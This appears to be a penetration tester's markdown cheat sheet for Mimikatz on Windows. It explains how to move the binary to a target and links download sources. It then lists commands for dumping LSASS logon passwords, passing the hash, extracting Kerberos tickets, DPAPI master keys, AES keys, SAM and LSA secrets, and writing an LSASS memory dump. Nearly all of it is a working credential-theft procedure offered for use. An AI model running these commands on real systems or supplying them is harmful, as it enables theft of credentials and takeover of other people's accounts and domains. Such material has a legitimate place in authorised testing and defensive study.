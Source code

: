 ## Mimikatz.exe
Mimikatz.exe is a tool that allows you to extract passwords stored in memory and perform some AD attacks (PTT, etc). Obviously at least need a low-priv user, but it usually only works as an Administrator or SYSTEM. Just transfer it to target and run the binary.
[https://www.liquidweb.com/kb/how-to-install-and-use-mimikatz/](https://www.liquidweb.com/kb/how-to-install-and-use-mimikatz/)
[https://github.com/gentilkiwi/mimikatz/releases](https://github.com/gentilkiwi/mimikatz/releases)
Sometimes older systems require an older version of Mimikatz.exe, version 2.1.1:
[https://gitlab.com/kalilinux/packages/mimikatz/-/tree/d72fc2cca1df23f60f81bc141095f65a131fd099/](https://gitlab.com/kalilinux/packages/mimikatz/-/tree/d72fc2cca1df23f60f81bc141095f65a131fd099/)
**Always start Mimikatz.exe session by entering:
```
privilege::debug
```
```
token::elevate
```
When I run mimikatz I usually try to run most of the below commands, or at least will dump LSASS, dump SAM, and dump secrets.
**Mimikatz.exe Cheat Sheet:**
Dump LSASS:
```
mimikatz privilege::debug
```
```
mimikatz token::elevate
```
```
mimikatz sekurlsa::logonpasswords
```
**#(Over) Pass The Hash
```
privilege::debug
```
```
sekurlsa::pth /user:<UserName> /ntlm:<> /domain:<DomainFQDN>
```
**#List all available kerberos tickets in memory
```
sekurlsa::tickets
```
**#Dump local Terminal Services credentials
```
sekurlsa::tspkg
```
**#Dump and save LSASS in a file
```
sekurlsa::minidump c:\temp\lsass.dmp
```
**#List cached MasterKeys
```
sekurlsa::dpapi
```
**#List local Kerberos AES Keys
```
sekurlsa::ekeys
```
**#Dump SAM Database
```
lsadump::sam
```
**#Dump SECRETS Database
```
lsadump::secrets
```
**#Inject and dump the Domain Controller’s Credentials
```
mimikatz privilege::debug
```